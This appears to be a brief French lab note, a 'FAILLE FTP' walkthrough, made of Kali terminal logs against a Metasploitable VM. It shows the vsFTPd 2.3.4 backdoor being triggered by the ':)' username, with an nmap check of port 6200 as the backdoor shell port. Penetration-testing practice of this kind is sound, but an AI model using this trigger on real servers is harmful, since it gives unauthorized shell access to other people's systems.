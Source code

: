 

FAILLE FTP 





root@kali:/tmp/ifa# telnet 192.168.152.135
Trying 192.168.152.135...
Connected to 192.168.152.135.
Escape character is '^]'.
                _                  _       _ _        _     _      ____
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


metasploitable login: Connection closed by foreign host.
root@kali:/tmp/ifa# telnet 192.168.152.135 21
Trying 192.168.152.135...
Connected to 192.168.152.135.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
^C


faire 

user gary:)


root@kali:~# nmap -p6200 192.168.152.135

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-03-30 12:51 EDT
Nmap scan report for 192.168.152.135
Host is up (0.00016s latency).
PORT     STATE  SERVICE
6200/tcp closed unknown
MAC Address: 00:0C:29:0B:AD:DF (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
root@kali:~#

recommencer 
root@kali:~# telnet 192.168.152.135 21
Trying 192.168.152.135...
Connected to 192.168.152.135.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user gary:)
331 Please specify the password.
pass gary
Connection closed by foreign host.
root@kali:~#
